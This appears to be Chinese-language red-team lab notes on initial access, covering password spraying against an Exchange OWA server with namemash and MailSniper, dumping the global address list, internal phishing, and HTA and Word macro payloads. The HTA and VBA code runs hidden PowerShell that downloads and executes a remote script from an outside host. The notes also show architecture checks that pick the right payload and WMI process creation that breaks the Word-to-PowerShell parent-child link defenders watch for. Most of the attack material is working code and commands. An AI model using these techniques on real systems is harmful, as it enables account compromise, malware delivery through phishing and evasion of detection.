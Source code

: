 # 密码喷洒（Password Spraying）

3个工具:

## [namemash.py](https://gist.github.com/superkojiman/11076951)
一个根据完整用户名名单得到用户名各种组合的python工具
```
/opt/namemash.py names.txt >> possible-usernames.txt
```


## [MailSniper](https://github.com/dafthack/MailSniper)

引入
```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

枚举NetBIOS name
```
Invoke-DomainHarvestOWA -ExchHostname 10.10.15.100
```

验证哪些名字是域里的有效用户名
```
Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt
```

对上面的有效用户名进行密码喷洒,密码：```Summer2021```
```
Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021
```

注意：在现实渗透中，过多的喷洒尝试可能会暴露自己，以及导致用户被锁


使用MailSniper 下载全局地址列表
```
PS C:\> Get-GlobalAddressList -ExchHostname 10.10.15.100 -UserName CYBER\iyates -Password Summer2021 -OutFile gal.txt
[*] First trying to log directly into OWA to enumerate the Global Address List using FindPeople...
[*] This method requires PowerShell Version 3.0
[*] Using https://10.10.15.100/owa/auth.owa
[*] Logging into OWA...
[*] OWA Login appears to be successful.
[*] Retrieving OWA Canary...
[*] Successfully retrieved the X-OWA-CANARY cookie: ahhlRb0kZUKEg8YEo5ZZtQDYwqU8EdkIl7OJ7_ugwGfk56YCYe0ilgE2GKVxCNJTMpqknR3QJ_M.
[*] Retrieving AddressListId from GetPeopleFilters URL.
[*] Global Address List Id of b4477ba8-52b0-48bf-915e-d179db98788b was found.
[*] Now utilizing FindPeople to retrieve Global Address List
[*] Now cleaning up the list...
bfarmer@cyberbotic.io
iyates@cyberbotic.io
jadams@cyberbotic.io
jking@cyberbotic.io
nglover@cyberbotic.io
[*] A total of 5 email addresses were retrieved
[*] Email addresses have been written to gal.txt
```


## [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)


# 内部网络钓鱼

> 访问一个或多个内部邮箱开辟了一些可能性。我们可以搜索可能包含文档、用户名和密码等敏感信息的电子邮件；甚至代表受感染用户向员工发送电子邮件。我们可以发送我们自己制作的文件和/或链接，或者甚至下载已经在收件箱中的文档，将其后门（例如使用宏），然后将其发回给某人


# HTML Application (HTA)

hta客户端攻击

原理：在html中嵌入VBScript或者JScript代码，用户点击页面时触发代码执行

下面这段代码双击以后在用户电脑中打开一个计算器
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```


只要把上面代码修改一行,就可以唤起powershell执行一个rev shell
```
shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"""
```

执行64位powershell，需指明路径
```
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

注意上面```sysnative```是```System32```的别名


下面代码判断目标机器的架构，从而决定启用哪个powershell(x86还是x64)
```
Function Pwn()
  Set shell = CreateObject("wscript.Shell")

  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
  Else
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/b'))"""
  End If

End Function
```

# Visual Basic for Applications (VBA) Macro's

宏攻击

vba和vbscript差别不大，上面计算器的脚本稍微改一下就可以作为vba运行
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

函数名为AutoOpen时是自动运行的意思

同样的，也可以在vba中调用powershell，也需要注意架构问题，是32位还是64位。如果是64位，像上面一样指明路径。

需要注意，文件扩展名必须是```.doc```。

因为```.docx```文件无法保存宏代码。

## HTA 网络钓鱼

cobaltstrike

Attacks > Web drive-by > Host File

创建一个hta链接，发送给目标用户，诱使用户点击。


## Word Doc 网络钓鱼

把rev shell的vba放进doc文件，发送给用户，诱使用户打开。


# Parent-Child Relationships

父子进程

一个父进程可以有很多子进程，但是一个子进程只能有一个父进程。

观察进程关系，可以从防守角度察觉到攻击。

一个winword.exe父进程下如果运行了powershell.exe子进程，那将是非常可疑的，很可能是执行了可疑程序。

从进攻角度，打破这种关系可以使用 WMI Win32_Process 类来创建进程
```
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```

在这种情况下，PowerShell 将是WmiPrvSE.exe而不是 MS Word 的子进程。
